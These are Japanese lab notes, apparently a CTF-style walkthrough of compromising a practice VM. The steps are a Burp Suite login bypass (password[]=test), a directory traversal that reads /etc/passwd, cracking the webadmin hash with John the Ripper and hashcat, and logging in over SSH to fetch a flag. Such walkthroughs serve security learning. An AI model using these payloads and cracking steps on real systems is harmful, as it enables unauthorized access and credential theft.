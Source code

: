 ### BurpSuiteで認証
- BurpSuitはプロキシサーバの役割を持ちhttpリクエストを書き換える効果がある
- htmlのソースを見ると、postメソッドが使われているので、BurpSuitを使って送信を書き換える
  - intercept is on にすると、パケットを送信せずに止めておくモードになる 
- ターミナルで`burpsuite`と入力、またはOSのMenuからBurpSuiteを起動
- 全部デフォルトでOK 
- proxy -> intercept is off -> open browser 
- ブラウザを起動した状態で192.168.56.101/adminでサイトに移動したら
- `intercept on` にする
- userを`admin`とpasswordを`test`と入力してlogin
- HTTPリクエストが表示されるので、一番下を `password[]=test`と書き直す
- 一番左のForwardボタンを押す
- 成功すると、Admin areaサイトに切り替わる
- `Intercept is off`にするとマウスで操作できる

### BurpSuiteでディレクトリリバーサル
- ディレクトリリバーサルとはリンクのパスで一度ルートに移ってから、目的のファイルにアクセスすること
- Logsに移動する
- `intercept is on`にする
- どれでもいいが、log_03.txtにボタン押して、Get the logを押す
- BurpSuiteがhttpリクエストをキャプチャする。`file=log_03.txt`これは、このディレクトリにある、log_03.txtファイルを読み込んでいると考えられる、これならディレクトリ トラバーサルができるかもしれない。
- `file=log_03.txt`を以下のように書き直す。これはリクエストを利用して、ディレクトリリバーサルをしている
  - `file=../../../../../etc/passwd`と書き直してForwardボタンを押す
- 表示をコピーする

### John the ripperで使うファイルを作る
- 新しいターミナルを開けて`cat > pass.txt` ここでペーストして、ctrl + d　で抜ける
- シェルの使えるユーザを探す。
  - `cat pass.txt | grep -P 'sh$'`
- ファイルを見るとwebadminがシェルを使えて、パスワードのハッシュ値があるのでそれを解析する
  - `cat pass.txt | grep webadmin > hash.txt`

### hash値を解析する方法は２つある
### (1)John the ripper
  - OSのMenuからjohnを検索して起動する 
  - 本ではrockyou.txtを使っているが、ファイルは見つからないのでjohn.lstを使う
  - `sudo john hash.txt --wordlist=/usr/share/wordlists/john.lst`
    - `-w=/usr/~`でもOK
    - 過去に一度暗号を解読していると表示されないので以下のようにする
    - `sudo john hash.txt --show` 

### (2)hashcat
- `hashcat hash.txt -m 500 /usr/share/wordlists/rockyou.txt`

### sshでリモートに接続
- `ssh webadmin@192.168.56.101`
- password `dragon`
- lsコマンドでuser.txtがあるので１つ目のflagを取得、ただし中身が変換されているので直す
- `cat user.txt | base64 -d`
